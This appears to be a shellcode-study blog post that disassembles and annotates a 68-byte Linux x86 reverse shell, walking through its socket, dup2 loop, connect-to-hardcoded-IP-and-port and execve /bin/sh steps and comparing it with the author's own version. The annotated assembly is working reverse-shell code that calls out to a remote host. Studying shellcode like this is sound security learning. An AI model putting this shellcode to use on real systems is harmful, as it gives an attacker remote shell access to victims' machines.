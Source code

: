 ```
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
```

68 bytes... That's impressive. My greenhorn linux reverse shell came in around 87 bytes, I think. That's not bad, but at the time I didn't see many ways to further optimize it. Comparing them now, optimizations are pretty clear.

Breaking down these shellcodes is easy if we separate them by syscalls. Below is the first snippet, until we encounter an int 0x80. The first call is to socketcall, or 0x66.
```
00000000  31DB              xor ebx,ebx 	; Zero out ebx
00000002  F7E3              mul ebx 		; zero out eax, mul returns the value in eax
00000004  53                push ebx 		; push 0 onto the stack for socket() 'protocol' argument [NULL]
00000005  43                inc ebx 		; increase ebx to 1
00000006  53                push ebx 		; push 1 onto the stack for socket() 'type' argument [SOCK_STREAM]
00000007  6A02              push byte +0x2 	; push 2 onto the stack for socket() 'domain' agument [AF_INET]
00000009  89E1              mov ecx,esp 	; move the pointer to the arguments for socketcall into ecx
0000000B  B066              mov al,0x66 	; move the syscall 0x66 (102) for socketcall into eax
0000000D  CD80              int 0x80 		; make the syscall (ebx contains the value 1, or 'socket()', set at 0x00000005)
```
The above asm is straightforward, but there are a lot of tricks and optimized register usages. The next bit of code is very clever-- I thought my loop for dup2 was well made, and now I see this efficient beast:
```
0000000F  93                xchg eax,ebx 	; socket() returns the file descriptor for the new socket in eax-- xcgh is a single byte less than a mov and is equivalent for this use
00000010  59                pop ecx 		; the last thing pushed to the stack was 0x02 at 0x00000007, pop that into ecx for a counter and our first dup2 arg
00000011  B03F              mov al,0x3f 	; mov the syscall 0x3F (63) into eax
00000013  CD80              int 0x80 		; call dup2, returning into eax on success
00000015  49                dec ecx 		; decrement ecx 
00000016  79F9              jns 0x11 		; jump back to 0x00000011 if the SF flag is set
```
The above code acts as a very succint dup2 loop, taking only nine bytes total, and the loop itself eight. Until I read this I didn't think that you could just rearrange the format of the required calls, but that makes quite a lot of sense now. In retrospect, I wouldn't have been able to come up with a reason as to why you couldn't.

This next bit is responsible for calling `connect()` 
```
00000018  68C0A80110        push dword 0x1001a8c0	; For the sockaddr struct, this is our IP in hex! 
0000001D  680200115C        push dword 0x5c110002 	; Also for the sockaddr struct, this is the port!
00000022  89E1              mov ecx,esp 			; move the pointer for sockaddr into ecx
00000024  B066              mov al,0x66 			; move the syscall for socketcall() into eax
00000026  50                push eax 				; push the sockaddr length onto the stack 
00000027  51                push ecx 				; push the pointer to sockaddr struct onto the stack
00000028  53                push ebx 				; push the socket file descriptor onto the stack
00000029  B303              mov bl,0x3 				; move the connect syscall into ebx
0000002B  89E1              mov ecx,esp 			; move the arguments for connect into ecx
```
